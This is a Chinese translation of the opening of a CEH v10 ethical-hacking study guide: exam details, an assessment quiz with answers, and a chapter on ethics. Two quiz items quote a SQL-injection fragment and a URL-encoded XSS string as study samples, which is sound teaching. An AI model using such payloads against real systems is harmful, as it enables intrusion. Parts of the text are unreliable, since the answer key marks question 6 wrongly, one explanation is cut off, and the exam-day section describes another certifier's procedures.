# CEH v10 认证道德黑客学习指南


## 作者简介

Ric Messier, GCIH, GSEC, CEH, CISSP, MS，名字后面跟着的字母实在太多，仿佛他花时间收留那些白天跟着他回家的流浪动物。他对信息安全的兴趣始于高中，但在他就读于缅因大学奥罗诺分校大一时变得坚定，当时他利用受限环境中的一个漏洞逃出了该环境，并在20世纪80年代初获得了IBM大型机的提升权限。他第一次接触Unix是在20世纪80年代中期，接触Linux是在20世纪90年代中期。Ric 是一位作者、培训师、教育工作者和安全专业人士，拥有多十年的经验。他目前是 FireEye Mandiant 的高级信息安全顾问，偶尔在哈佛大学和科罗拉多大学博尔德分校教授课程。


## 引言

你正考虑成为一名认证道德黑客（CEH）。无论你执行哪种安全测试——道德黑客、渗透测试、红队演练或应用评估——获得此认证所需的技能和知识都很受欢迎。即使是安全测试和道德黑客的概念，也随着企业和组织开始更好地理解其所面临的对抗者而不断演变。企业曾长期认为自己正在抵御的所谓“脚本小子”，已不再是现状。当今的对抗者是有组织的、资金充足的且坚定不移的。这意味着测试需要不同的策略。

取决于你听谁说，当今80%–90%的攻击都使用社交工程。在网络服务中寻找技术漏洞的旧技术，仅仅不是攻击者入侵网络的方式。那些专注于应用纵深防御、加固外围的网络，最终可能容易受到来自内部的攻击——这正是当桌面系统被攻陷时发生的情况。识别漏洞并推荐修复措施所需的技能，正随着攻击者使用的策略和技术一起演变。

本书旨在帮助你了解获得CEH认证所需掌握的内容广度。你将发现许多概念，为你提供可应用于认证所需技能的基础。虽然你可以从头到尾读完本书，但对于相当一部分主题，动手实践是必不可少的。这些概念通常通过使用工具来演示。跟随这些演示并亲自使用工具，将帮助你理解工具及其使用方法。许多演示是在Kali Linux中进行的，尽管许多工具都有Windows对应版本，如果你更习惯在那里的话。

我们不能在不谈论伦理的情况下完成这一切，尽管你会在书中多处看到它的提及。这很严肃，不仅因为它是认证基础的重要部分。它也是保护你自己以及你为之工作的人的必要条件。简而言之，就是不要做任何会对系统或雇主造成损害的事情。远不止于此，你将在第一章中作为起点阅读更多相关内容。有必要开始理解这项考试和职业中涉及的伦理。作为获得认证的一部分，你将需要签署一份协议。

每章末尾，你会找到一组问题。这将帮助你向自己证明你理解了内容。大多数问题是选择题，这是CEH考试使用的题目格式。这些问题，加上你利用的动手经验，将是参加考试的良好准备。


## 什么是 CEH？

CEH（认证道德黑客）考试旨在验证持证人是否掌握成为一名高效道德黑客所需的广泛知识范围。

现实是，大多数日子里，如果你关注新闻，会看到关于某公司被攻破并遭窃取数据、某政府遭受攻击，甚至是大规模拒绝服务攻击导致用户难以访问业务资源的新闻。

CEH 是一项认证，承认识别安全问题并加以修复的重要性。

这是公司保护自身免受攻击的一种方式——在攻击者之前先行一步。

它需要有人了解攻击者通常会使用的技术。

仅使用自动化工具运行扫描是不够的，因为无论安全扫描器多么出色，都会误报——即扫描器提示某个问题，但那并非真正的问题。

此外，由于多种原因（包括漏洞或攻击可能尚未被知晓），扫描器还会漏掉大量漏洞——即假阴性。

由于公司需要了解自身在何处容易受到攻击，因此需要能够识别这些漏洞的人，而这些漏洞可能非常复杂。

扫描器是个好的开始，但在复杂网络中找到漏洞可能需要人类提供的创造性智能。

这就是为什么我们需要道德黑客。

道德黑客是掌握广泛技术领域深厚知识，并能利用这些知识识别可被利用漏洞的人。

顺便说一句，这个两个词的短语中，重要的是“道德的”。

公司建立防护是因为它们拥有不希望被盗取或损坏的资源。

当它们引入某人来寻找可利用的漏洞时，需要确保不会有任何东西被盗取或损坏。

它们还需要确保可能被看到或审查的任何内容不会被分享给其他任何人。

在涉及已识别的任何漏洞时，这一点尤其正确。

因此，CEH 考试具有双重目的。

它不仅测试深厚的技术知识，还约束任何持证人遵守行为准则。

你不仅需要知道该行为准则的内容和期望，还需要遵循该准则。

当公司雇佣或签约持有 CEH 认证的人时，他们可以放心，引进的是一位谨慎行事、能够保守秘密并提供专业服务的人，以帮助改善其安全态势并保护重要资源。

## 主题内容

如果你要参加 CEH v10 培训，需要完成以下模块：

- 道德黑客入门
- 足迹分析与侦察
- 网络扫描
- 枚举
- 漏洞分析
- 系统攻击
- 恶意软件威胁
- 数据包嗅探
- 社交工程
- 拒绝服务
- 会话劫持
- 绕过 IDS、防火墙和蜜罐
- Web 服务器攻击
- Web 应用攻击
- SQL 注入
- 无线网络攻击
- 移动平台攻击
- IoT 攻击
- 云计算
- 密码学

如你所见，涵盖的主题范围非常广泛。

除了了解这些主题相关的概念外，你还需要知道可能用于执行你所学概念相关操作的各种工具。

例如，你需要知道像 `nmap` 这样的端口扫描工具。

你可能需要知道基于代理的 Web 应用攻击工具。

针对无线网络攻击，你可能需要知道 `aircrack-ng` 工具套件。

上述每个模块都可能有几十种可用的工具。

CEH 考试的主题内容非常技术性。

这不是一个仅凭理论知识就能应付的领域。

你需要有 CEH 考试主题所涵盖的方法和工具方面的经验。

你可能还注意到，上述模块都属于之前提到的不同阶段。

虽然你未必会被要求回答特定方法论，但你会发现考试内容通常遵循 EC-Council 认为是标准方法的方法论。

## 关于考试

CEH 考试的参数与其他专业认证考试大体相同。

你将参加机考，并在监考下进行。

你有 4 小时时间完成 125 道题目。

这意味着你平均每道题大约有 2 分钟。

所有题目均为选择题。

考试可以通过 ECC 考试中心或 Pearson VUE 中心参加。

如果你希望进一步提升认证，可以报考 CEH 实践考试。

参加此考试，你必须执行一次实际渗透测试，并在结束时撰写报告。

这表明，除了掌握考试涵盖的知识体系外，你还能以实际方式应用这些知识。

你需要知道如何攻破系统并识别漏洞。

要通过考试，你需要正确回答问题，但实际需要答对的题目数量会有所不同。

及格分数线因所问问题的难度而异。

从完整题库中选出的问题越难，通过考试所需答对的题目就越少。

如果你得到的题目较简单，你需要答对更多题目才能通过。

有些信息来源会告诉你需要答对 70% 的题目，这作为粗略的低端参考，用于一般指导和准备可能还可以。

但是，请记住，当你在考试中心参加实际考试时，及格分数线会有所不同。

好消息是，你在离开考试中心之前就会知道是否通过。

考试结束后你会得到分数，并且还会收到一张说明分数详情的纸。

你会得到与不同评分领域相关的反馈，以及你在各个领域中的表现。

## 谁有资格

并非每个人都有资格参加 CEH 考试。

在深入之前，你应该检查自己的资格。

至少，你必须年满 18 岁。

其他资格标准如下：

- 持有 CEH 认证第 1–7 版的任何人。CEH 认证（或考试？）目前已获 ANSI 认证，但早期版本的考试在认证推出前即已提供。任何持有早期版本 CEH 认证并希望参加 ANSI 认证认证的人都可以参加考试。

- 至少两年相关工作经验。拥有相关经验的人需要支付不可退还的申请费 $100。

- 已参加 EC-Council 培训。

如果你符合这些资格标准，可以申请认证，并支付适用于你的费用（如果你参加 EC-Council 培训之一，费用已包含在内）。申请有效期为三个月。

## 考试费用

要参加认证考试，你需要购买 Pearson VUE 考试凭证，费用为 $1,199。

你也可以花费 $950 获得 EC-Council 凭证，但前提是你已参加 EC-Council 培训并能提供出席证明。

## 关于 EC-Council

国际电子商务顾问委员会通常称为 EC-Council。

它成立于 2001 年 9 月 11 日针对美国发生的飞机袭击事件之后。

创始人 Jay Bavisi 思考，如果袭击的实施者决定从物理世界转向数字世界，会发生什么。

不仅如此，除了那一特定群体的袭击者之外，互联网已成为大量有意造成破坏或窃取信息的人的温床。

互联网的经济学（即进入该行业的低成本）鼓励犯罪分子利用它窃取信息、勒索数据或实施其他恶意行为。

EC-Council 被认为是世界上最大的认证机构之一。

他们在 145 个国家运营，并已认证超过 20 万人。

除了 CEH，EC-Council 还管理多项其他 IT 相关认证。

他们管理以下认证：

- 认证网络防御师 (CND)
- 认证道德黑客 (CEH)
- 认证道德黑客实践
- EC-Council 认证安全分析师 (ECSA)
- EC-Council 认证安全分析师实践
- 持证渗透测试人员 (LPT)
- 计算机黑客取证调查员 (CHFI)
- 认证首席信息安全官 (CCISO)

持有 EC-Council 认证的一个优势是，该组织已获得美国国家标准协会 (ANSI) 的认证。

此外，对于潜在持证人来说，也许更重要的是，EC-Council 的认证在全球范围内得到认可，并已获得美国国家安全局 (NSA) 等政府机构的认可。

国防部指令 8570 包含 CEH 认证。

这一点很重要，因为持有 CEH 认证意味着你可以快速获得美国政府多个职位的资格。

CEH 认证设立了一个标准。

这意味着有一套已知的标准。

要获得认证，你至少需要达到最低标准。

这些标准可以始终如一地信赖。

这就是为什么可以信任持有 CEH 认证的人。

他们已经证明，自己在知识和专业行为方面均符合已知且被认可的标准。


## Using This Book

本书的结构是先介绍基础材料。采用这种方法，你可以循序渐进地阅读本书，一次一章。技术书籍有时可能枯燥且难以读完，但我一直努力让它们易于阅读，并希望在过程中让你感到有趣。如果你已经有丰富经验，就不必非要从头到尾直接阅读。你可以根据需要跳跃阅读。各章之间没有相互依赖。在内容方面，每章都是独立的。但是，如果你没有基础却试图跳到后面的章节，可能会发现自己在材料面前迷失或困惑。你只需要跳回一些基础章节即可。

除基础材料外，本书在进行安全测试方面通常遵循相当标准的方法论。该方法论将在第 1 章进一步解释。因此，你可以跟随渗透测试/道德黑客项目的步骤进行操作。了解方法论的大纲和原因对你也会有帮助。不过，同样，如果你已经熟悉这些内容，可以根据需要随意跳转。

## Objective Map

表 I.1 包含一个目标图，让你一目了然地了解在哪里可以找到每个涵盖的目标。虽然为所有目标都列出了章节，但有些目标散布在整本书中。具体来说，工具、系统和程序在大多数章节中至少会被提及。

| 目标 | 章节 |
|---|---|
| 任务 | |
| 1.1 系统开发与管理 | 7, 14 |
| 1.2 系统分析与审计 | 4, 5, 6, 7 |
| 1.3 安全测试与漏洞 | 7, 8 |
| 1.4 报告 | 1, 7 |
| 1.5 缓解 | 7, 8 |
| 1.6 伦理 | 1 |
| 知识 | |
| 2.1 背景 | 2, 3 |
| 2.2 分析/评估 | 2, 11 |
| 2.3 安全 | 3, 13, 14 |
| 2.4 工具、系统与程序 | 4, 5, 6, 7 |
| 2.5 程序/方法论 | 1, 4, 5, 6, 7, 14 |
| 2.6 法规/政策 | 1, 14 |
| 2.7 伦理 | 1 |

## On the Day of the Exam

计划在考试开始时间前至少 30 分钟到达考试中心。办理入住手续时，你需要：

- 出示两份（2 份）有效且未过期的个人身份证件（示例包括：政府颁发的身份证、护照等）。两者都必须有你的签名，并且两份中至少一份必须有你的照片。有关可接受身份证件的更多信息，请访问：https://www.isc2.org/Register-for-Exam，并在“What You Need to Bring to the Test Center”选项卡下查看更多信息。
- 提供你的签名。
- 接受掌静脉扫描（除非法律禁止）。
- 拍摄你的照片。拍照时不得佩戴帽子、围巾和外套。你在考试室内也不能佩戴这些物品。

考试管理员（TA）会给你一个简短的介绍。如果你已经为考试安排了特殊便利措施，并且 (ISC)2 和 Pearson VUE 已批准，请务必与 TA 过一遍。然后，TA 将带你前往计算机终端。

## Let’s Get Started！

本书的结构会引导你了解基础概念，然后了解道德黑客的一般方法论。你可以随意选择自己在本书中的阅读路径。记住，尽可能多地实践。获取一些你不太熟悉的工具、策略和程序的经验。这对你会大有帮助。参加自我评估。它可以帮助你更好地了解如何充分利用本书。

## Assessment Test

1. 哪个首部字段用于重组分片的 IP 数据包？
   A. 目标地址
   B. IP 标识
   C. 不分片位
   D. ToS 字段

2. 如果在数据包捕获中看到以下内容，你预期发生了什么？
   ' or 1=1;
   A. 跨站脚本
   B. 命令注入
   C. SQL 注入
   D. XML 外部实体注入

3. 你可能会使用什么方法将恶意软件成功安装到移动设备上？
   A. 通过 Apple Store 或 Google Play Store
   B. Android 的外部存储
   C. 第三方应用商店
   D. 越狱

4. 使用什么协议可以获取目标 IP 地址，并将数据包发送到本地网络上的目标？
   A. DHCP
   B. ARP
   C. DNS
   D. RARP

5. 将字符串 AAAAAAAAAAAAAAAAAAA 发送到只分配了 8 字节空间的变量中，结果会怎样？
   A. 堆喷射
   B. SQL 注入
   C. 缓冲区溢出
   D. Slowloris 攻击

6. 如果看到子网掩码 255.255.248.0，你会使用什么 CIDR 表示法（前缀）来表示相同的含义？
   A. /23
   B. /22
   C. /21
   D. /20

7. 蠕虫和病毒的主要区别是什么？
A. 蠕虫使用多态代码
B. 病毒使用多态代码
C. 蠕虫可以自我传播
D. 病毒可以自我传播

8. 你会如何计算风险？
A. 概率 * 损失
B. 概率 * 缓解因素
C. (损失 + 缓解因素) * (损失/概率)
D. 概率 * 缓解因素

9. 邪双胞胎攻击是如何工作的？
A. 网络钓鱼获取用户凭据
B. 欺骗 SSID
C. 更改 SSID
D. 注入四次握手

10. 为了在恶意软件到达终端之前将其从网络中移除，你会使用以下哪项？
A. 杀毒软件
B. 应用层网关
C. 统一威胁管理设备
D. 有状态防火墙

11. 安全策略的目的是什么？
A. 提供关于安全角色的高级指导
B. 为安全人员提供具体指导
C. 增加公司的利润
D. 使标准和实践保持一致

12. 以下字符串经过了什么处理？%3Cscript%3Ealert('wubble');%3C/script%3E
A. Base64 编码
B. URL 编码
C. 加密
D. 密码学哈希

13. 运行命令 dig ns domain.com 会得到什么？
A. domain.com 的邮件交换记录
B. domain.com 的名称服务器记录
C. domain.com 的缓存名称服务器
D. 主机名 ns 的 IP 地址

14. 你理想情况下会使用什么技术来获取域关联的所有主机名？
A. DNS 查询
B. 区域复制
C. 区域传输
D. 递归请求

15. 如果在查看数据包捕获时注意到 DNS 请求中包含操作系统命令，你可能看到的是什么？
A. 隧道攻击
B. DNS 放大
C. DNS 递归
D. XML 实体注入

16. 运行 ping 扫描的目的是什么？
A. 你希望在不进行端口扫描的情况下识别响应的主机。
B. 你希望使用对网络流量较小的方法。
C. 你希望使用可能被防火墙允许的协议。
D. 以上皆是。

17. NIST 的网络安全框架规定了多少个功能？
A. 0
B. 3
C. 5
D. 4

18. 不要在 Python 中编写恶意软件的一个理由是什么？
A. Python 解释器很慢。
B. Python 解释器可能不可用。
C. 库支持不足。
D. Python 是一门难学的语言。

19. 如果你看到了以下命令行，你正在捕获什么？
   `tcpdump -i eth2 host 192.168.10.5`
A. 仅来自 192.168.10.5 的流量
B. 来自和发往 192.168.10.5 的流量
C. 仅发往 192.168.10.5 的流量
D. 除 192.168.86.5 以外的所有流量

20. Diffie-Hellman 用于什么？
A. 密钥管理
B. 密钥隔离
C. 密钥交换
D. 密钥撤销

21. 哪种社会工程学原则可能使来自帮助台的虚假电话有效？
A. 社会认同
B. 模仿
C. 稀缺性
D. 权威性

22. 如何使用 SNMPv1 进行身份验证？
A. 用户名/密码
B. 哈希
C. 公共字符串
D. 社区字符串

23. 当 Java 程序在网络上共享过程时，它们向什么进行自我标识？
A. RMI 注册表
B. RMI 映射器
C. RMI 数据库
D. RMI 进程

24. 我们称没有对应 ARP 请求的 ARP 响应为什么？
A. Is-at 响应
B. Who-has ARP
C. 免费 ARP
D. IP 响应

25. 文件元数据中通常存储哪三个时间？
A. 移动、添加、更改
B. 修改、访问、删除
C. 移动、访问、更改
D. 修改、访问、创建


26. 以下哪项是利用本地漏洞的原因？
A. 横向移动
B. 日志操纵
C. 权限提升
D. 密码收集

27. 使用什么原则来证明签名消息来自签名密钥的所有者？
A. 不可否认性
B. 不可验证性
C. 完整性
D. 权威性

28. 防止尾随的可行方法是什么？
A. 生物识别
B. 徽章访问
C. 电话验证
D. 人身陷阱

29. 为什么 bluesnarfing 可能比 bluejacking 更危险？
A. bluejacking 发送而 bluesnarfing 接收。
B. bluejacking 接收而 bluesnarfing 发送。
C. bluejacking 安装按键记录器。
D. bluesnarfing 安装按键记录器。

30. Biba 安全模型与安全三要素中的哪个属性相关？
A. 机密性
B. 完整性
C. 可用性
D. 所有上述属性

## 评估测试答案

1. B. 目标地址用作发送消息的地址。不分片位用于告诉网络设备不要分片数据包。服务类型（ToS）字段可用于执行服务质量。IP 标识字段用于识别同一数据包的片段，因为它们都将具有相同的 IP 标识编号。

2. C. SQL 注入攻击利用 SQL 查询，其中可能包含更改应用程序流程的逻辑。在所提供的示例中，意图是强制 SQL 查询的结果始终返回“真”。之所以这样引用，是为了转义应用程序中已存在的查询。其他攻击都不使用看起来像示例那样的语法。

3. C. Apple App Store 和 Google Play Store 受 Apple 和 Google 控制。通过这种方式在移动设备上安装恶意软件并非不可能，但非常困难，因为应用程序会经过审查流程。虽然某些 Android 设备支持外部存储，但这不是将恶意软件安装到智能手机或其他移动设备的有效方法。越狱可能导致安装恶意软件，但它不是将恶意软件安装到移动设备的手段。第三方应用商店可以是将恶意软件安装到移动设备的良好手段，因为某些第三方应用商店不会审查提交的应用程序。

4. B. DHCP 用于向终端获取 IP 配置。DNS 用于将主机名解析为 IP 地址，反之亦然。RARP 是反向地址协议，用于获取 MAC 地址并将其解析为 IP 地址。ARP 用于将 IP 地址解析为 MAC 地址。本地网络上的通信需要使用 MAC 地址。IP 地址用于将系统从本地网络路由出去。

5. C. 堆喷射使用动态分配的空间来存储攻击代码。slowloris 攻击用于保持 Web 服务器连接缓冲区打开。SQL 注入将用于向数据库服务器注入 SQL 查询。缓冲区溢出会向应用程序发送超过已分配空间的数据。

6. B. /23 网络的子网掩码为 255.255.254.0。/22 为 255.255.252.0。/20 为 255.255.240.0。只有 /21 才会给出 255.255.248.0 的子网掩码。

7. C. 蠕虫和病毒都可以编写为使用多态代码，这意味着它们在传播过程中可以修改自身的外观。然而，蠕虫可以自我传播。这是蠕虫和病毒之间的唯一区别。病毒需要用户的某种干预才能传播和执行。

8. A. 风险是事件发生概率与损失金额的乘积。没有可量化的缓解因素可以放入风险计算中。

9. B. 邪恶双子攻击使用一个伪装成合法无线网络连接点的接入点，诱使尝试连接的客户端连接到它。客户端会向这个伪装成另一个接入点的接入点发起连接请求。虽然在邪恶双子攻击中可能会进行凭证网络钓鱼，但凭证网络钓鱼并不是邪恶双子攻击的工作原理。SSID 在邪恶双子攻击中不会被更改，这意味着现有的 SSID 不会变成另一个 SSID。注入四次握手不会起多大作用，因为四次握手假设两端正在通信，因此注入的完整通信流将被忽略。

10. C. 防病毒解决方案用于终端或电子邮件服务器。有状态防火墙增加了考虑连接状态（新建、相关、已建立）的能力。应用层网关了解应用层协议。统一威胁管理设备在防火墙功能的基础上增加了额外功能，包括防病毒。

11. A. 标准和实践应源于安全策略，即关于安全在组织中作用的高层指导。安全通常不会增加公司的净利润。策略不是用于提供具体指示，那是程序的职责。

12. B. Base64 编码将不可打印字符转换为可以文本形式呈现的编码。加密通常会使文本对人不可读。加密哈希是生成固定长度值以标识某个值的方法。URL 编码将文本转换为使用十六进制值表示字符的形式。这是已转换为十六进制的文本，以便可用于 URL 中。

13. B. 邮件交换记录将被识别为 MX 记录。名称服务器记录由标记 NS 识别。虽然企业可能有一个甚至多个缓存名称服务器，但缓存名称服务器不被认为属于该域，因为它与该域没有关联的域标识。

14. C. DNS 查询可用于从主机名识别 IP 地址，反之亦然。你可能使用暴力技术来识别主机名，尽管使用该方法可能无法获取所有内容。缓存服务器向权威服务器发送递归请求很常见。获取区域所有内容的术语称为区域传输。

15. A. 隧道攻击可用于将一种协议隐藏在另一种协议内部。这可以用于通过隧道系统发送操作系统命令。DNS 放大攻击是指小型 DNS 请求会导致发送到目标的大量更大的响应。DNS 递归用于从 DNS 服务器查找信息。XML 实体注入攻击是一种基于 Web 的攻击，不会出现在 DNS 请求中。

16. D. 执行 ping 扫描可能有几个原因。你可能希望识别目标网络段上响应的主机。不过，你可能不想使用完整的端口扫描。ICMP 是一种轻量级协议，有可能会被防火墙允许通过，因为它用于故障排除和诊断。

17. C. NIST 网络安全框架规定了五个功能——识别、防护、检测、响应、恢复。

18. B. 社区开发的库。不过，一个挑战是你可能需要 Python 解释器，除非你经过获取 Python 编译器并编译脚本的步骤。Windows 系统通常不会预装 Python 解释器。

19. B. 表达式 host 192.168.10.5 是 BPF，指示 tcpdump 只捕获到和来自 192.168.10.5 的数据包。如果你只想获取到或来自的数据包，需要将 host 修改为 src 或 dest。

20. C. 证书可以被撤销，但这不是 Diffie-Hellman 的用途。密钥管理比 Diffie-Hellman 的用途要广泛得多。Diffie-Hellman 用于密钥交换。这是一个允许加密对话双方从相同的基值开始相互推导出相同密钥的过程。

21. D. 虽然你可能在模仿某人，但模仿不是社会工程学原则。在这种情况下，既不涉及社会证明，也不涉及稀缺性。但是，如果你是从帮助台打电话，可能会被视为处于权威地位。

22. D. SNMPv3 实现了用户名和密码身份验证。在版本 1 中，你使用明文社区字符串。SNMP 不使用哈希，虽然“public”一词常被用作社区字符串，但公共字符串不是与 SNMPv1 进行身份验证的方式。

23. A. 使用网络在系统之间进行的进程间通信称为远程方法调用。程序需要与之通信以获取动态端口分配的进程是 RMI 注册表。这是你查询以识别已实现 RMI 的系统上可用服务的程序。

24. C. 当发送没有对应 ARP 请求的 ARP 响应时，这是一条意外或不必要的消息，因此称为 gratuitous ARP。

25. D. 文件元数据中通常使用三种日期和时间戳。文件创建时，会存储该时刻。用户访问文件时，会存储该时刻。文件修改时，会存储该时刻。访问不同于修改，因为访问文件可能是只读的。你可能打开一个文件，打算修改它但最终没有进行修改。访问时间仍会更改。虽然移动、添加和更改有时被称为 MAC（修改、访问、创建），但这些不是与文件时间相关的任务。

26. C. 本地漏洞用于针对未在网络上监听的应用程序。这意味着它们要求你必须“本地”处于该机器上，而不是远程。换句话说，你必须以某种方式登录。本地漏洞不会用于收集密码，因为你不需要漏洞来做到这一点。同样，你不需要利用漏洞来操纵日志或进行横向移动。不过，大多数这些操作都需要你拥有提升的权限。可以利用本地漏洞来获取这些提升的权限。

27. A. 完整性是 CIA 三要素的一部分，但不是将签名消息与签名证书的主题关联起来的原则。不可验证性是无稽之谈，权威性在这里无关紧要。相反，不可否认性意味着，如果消息是用某人的密钥签名的，并且该密钥在其持有之下且受密码保护，那么该人不能否认发送了该消息。


28. D. 生物特征识别和徽章访问是物理访问控制的形式。电话验证可能可用于验证身份，但它无法防止尾随。然而，人陷阱可以防止尾随，因为人陷阱一次只允许一个人进入。

29. B. Bluesnarfing 是一种连接到蓝牙设备以从该设备窃取数据的攻击。Bluejacking 可用于向正在从攻击者接收数据的蓝牙设备发送信息，例如短信。这两种攻击都不会安装键盘记录器。在 bluesnarfing 攻击中，受害设备会向攻击者发送信息。

30. B. Biba 安全模型涵盖数据完整性。虽然其他模型涵盖机密性，但没有一个涵盖可用性。


# 第 1 章

# 道德黑客

本章涵盖以下 CEH 考试主题：

- 职业行为准则
- 黑客行为的适当性


欢迎来到信息安全的激动人心的世界，更具体地说，是所谓的 *道德黑客* 的重要世界。你之所以在这里，是因为你想参加考试，以获得认证道德黑客（CEH）认证。也许你已经完成了 EC-Council（管理 CEH 的组织）的培训，并且希望找到一个提供不同视角的资源，以帮助你准备考试。或者你决定走自学之路，并且有足够的经验符合考试资格。无论如何，你现在都在这里，这本书将帮助你提高对材料的理解，以准备考试。

考试涵盖广泛的主题，且常常涉及深层技术内容，因此你需要对材料有扎实的理解。如果你选择参加实践考试，这一点尤其正确。然而，本章将是你的起点，这里没有技术内容。在本章中，你将有机会了解整个考试的基础。首先，你将了解什么是道德黑客，以及什么不是。术语 *道德黑客* 中重要的是 *道德* 部分。参加考试时，你将被期望遵守一套准则。理解该准则至关重要，这样你才能在整个职业生涯中遵循它。

最后，你将了解 EC-Council 是什么，以及对你有用的考试格式和其他细节。虽然其中一些内容可能看起来微不足道，但了解考试创建的更广泛背景以及运行它的组织是有帮助的。就我个人而言，我认为了解事物底层的东西比肤浅地体验它更有用。因此，你将获得宏观解释，你可以选择使用或不使用，具体取决于你是否觉得有帮助。它不会成为考试的一部分，但可能帮助你了解考试背后的内容，从而理解整体意图。

## 道德概览

在开始谈论道德黑客之前，我将介绍其中最重要的方面，即道德。你会注意到它不被称为“合乎道德地黑客攻击”，而是道德黑客。重要的是前面的部分。伦理可能是一个具有挑战性的主题，因为你会发现它不是普世的。不同的人对什么是道德、什么是不道德有不同的看法。不过，理解什么是伦理，以及从认证道德黑客认证的角度来看，什么是道德和不道德是至关重要的。这是考试和认证的关键部分。毕竟，你被托付了访问敏感信息和关键系统的权限。为了保持自己作为专业人士的可行性，你需要以道德的方式行事并完成工作。不仅要求你道德地行事，还要求你遵守一套职业道德准则。

作为职业道德准则的一部分，你将宣誓保密作为工作一部分获得的信息，特别要注意保护雇主和客户的信息及知识产权。当你攻击属于他人的系统时，可能会获得敏感的内部信息。你还可能遇到对你所工作的组织至关重要的关键信息。未能保护这些数据中的任何一项都违反了职业道德准则，因为这会危及该信息的机密性。

你有责任向聘用你的服务的人披露需要披露的信息。这包括你发现的任何问题。你还需要披露可能存在的利益冲突。在交往中保持透明非常重要，并且在保护客户、雇主及其业务利益方面要做正确的事。此外，如果你发现可能对互联网上大量人群产生影响的事物，你需要以负责任的方式披露它。这并不意味着在公共论坛上披露。这意味着与你的雇主、可能涉及的任何供应商以及可能对你的发现拥有管辖权的任何计算机应急响应小组（CERT）合作。

负责任披露的示例，请参阅 Dan Kaminsky 的工作。他在域名系统（DNS）的实现中发现了严重缺陷，这影响了互联网上的每个人。他负责任地与供应商合作，确保他们有时间修复实现并修复漏洞，然后再披露它们。最终，他确实以非常公开的方式披露了漏洞，但仅在供应商有时间修复问题之后才这样做。这意味着他没有让人们面临被攻击和潜在信息泄露的风险。尽管他以非预期的方式使用软件，但他采用了道德方法，试图在有人以恶意方式利用该问题之前解决问题。

执行工作时，你将获得客户或公司提供的资源访问权限。根据你需要同意的职业道德准则，你不能滥用任何设备。你不能损坏作为雇佣或合同一部分而能访问的任何东西。在你执行的测试可能会对你所工作或合作的公司基础设施提供的服务造成损害时，这是可以接受的，只要这是无意的或公司同意可以接受的。缓解这一顾虑的一种方法是随时保持沟通渠道畅通。如果发生意外中断，确保相关人员知道以便进行补救至关重要。

或许不言而喻，但你不得从事任何非法行为。同样，你不能有任何重罪定罪或违反任何法律。同样，虽然不直接违法，但你不能参与任何可能被视为“黑帽”的团队，意味着他们从事潜在的非法活动，例如出于恶意目的攻击计算机系统。

## 生动的术语

你可能经常听到 *白帽*、*黑帽* 和 *灰帽* 这些术语。白帽黑客是始终为善行事的人。黑帽黑客，可能不足为奇，是做坏事的人，通常从事违法行为。然而，灰帽黑客处于中间。他们为善行事，但使用黑帽黑客的技术。

无论你是按合同工作还是全职员工，在开始一个项目时，沟通也很重要。当你承接新项目时，必须明确服务期望。如果你有书面的服务范围，一切都清晰且有据可查。只要你被要求做的事情不违法，且活动范围属于你所工作的公司运营的系统，你的工作就会被视为合乎道德。如果你超出系统、网络和服务的范围，你的行为就会被视为不道德。

当你保持专业的互动并确保雇主完全清楚你在做什么时，只要你的行为针对的是属于雇主的系统，你在道德上就应该是安全的。

## 道德黑客概览

如今，很难从任何新闻来源中不看到关于数据盗窃、基于互联网的犯罪或针对人和企业的各种其他攻击的报道。我们在新闻中看到的实际上是重大问题，即大量记录被泄露或大公司被攻破。你看不到的是攻击目标是某人的个人电脑或其他设备的系统攻击数量。例如，Mirai 僵尸网络感染了运行嵌入式 Linux 实现的较小特殊目的设备。据估计，已被攻破并成为该僵尸网络一部分的设备数量已超过 100,000 台，可能超过 100 万台。

每年，会创建数以百万计的新恶意软件，通常利用新发现的漏洞。自 2005 年以来，每年至少有 1000 万条数据记录被泄露。2017 年，近 2 亿条记录被泄露。这些数字仅来自美国。为了更有概念，美国只有约 2.5 亿成年人，因此可以说每个成年人的信息都多次被泄露。要明确的是，我们谈论的数据记录属于个人，而非企业。对于可能被盗的知识产权总价值，几乎没有统计，但很明显，这种泄露已经持续很长时间了。


## 道德黑客方法论

总而言之，这表明迫切需要改进信息安全的处理方式。普遍认为，为了防范攻击，你必须能够理解这些攻击。理想情况下，你需要复制这些攻击。如果企业能够及早且频繁地针对自身基础设施进行攻击测试，这些企业就能更好地改进防御，将真正的攻击者拒之门外。

这种测试才是道德黑客的真正含义。其核心在于找出问题，目的是改进目标的整体安全态势。这可能涉及公司的基础设施，甚至桌面系统。也可能是针对软件进行测试，以识别可用于危害软件及随后运行软件的系统的漏洞。目标不是恶意行为，而是站在“正道”上使情况变得更好。这是你可以受雇或签约为企业执行的工作。他们可能有一组系统或 Web 应用程序需要测试。你也可能有需要测试的软件。很多人进行软件测试，包括商业软件和开源软件。

道德黑客可以以多种不同的名称进行。你可能并不总能看到“道德黑客”这个词，尤其是在查看职位名称时。相反，你会看到“渗透测试”这个词。本质上是一回事。渗透测试的想法是尝试渗透组织的防御。这也可能是道德黑客的目标。你还可能看到“红队”这一术语，它通常被认为是一种特定的渗透测试类型，其中测试人员与被测组织和网络处于对抗状态。红队成员实际上会像攻击者一样行事，意味着他们会尽量隐蔽，以免被发现。

这类活动的挑战性方面之一在于必须像攻击者一样思考。这种性质的测试通常具有挑战性，需要不同的思维方式。进行任何类型的测试（包括道德黑客测试）时，方法论都很重要，因为它有助于确保你的行为既可重复又可验证。你可能会遇到多种方法论。从事此类工作一段时间的专业人士可能已经发展出了自己的风格。然而，他们通常会遵循共同步骤，如本章后面将要说明的步骤。

EC-Council 通过要求任何获得认证道德黑客（CEH）认证的人同意行为准则，帮助确保此类工作以合乎道德的方式进行。这份行为准则要求 CEH 认证持有者遵守一套标准，确保他们以合乎道德的方式行事，为雇主服务。他们被期望不造成危害，并致力于改进安全态势，而不是破坏该态势。

## 道德黑客方法论

### 侦察与足迹分析

侦察是你收集目标信息的地方。当然，你想要预先了解你任务的范围。这将帮助你缩小行动范围，避免从事可能不道德的事情。你对目标是谁会有些了解，但可能不掌握所有细节。收集目标的详细信息是进行侦察的原因之一。另一个原因是，虽然互联网的性质和在网上开展业务的需求使得许多信息必须是公开的，但你可能会发现泄露给外界的信息，而你所服务的组织最好将其锁定。

侦察和足迹分析的目标是确定测试的规模和范围。足迹分析只是了解组织的“足迹”，即其规模和外观。这意味着尝试识别网络块、主机、位置和人员。此处收集的信息将在你进入后续阶段时使用。

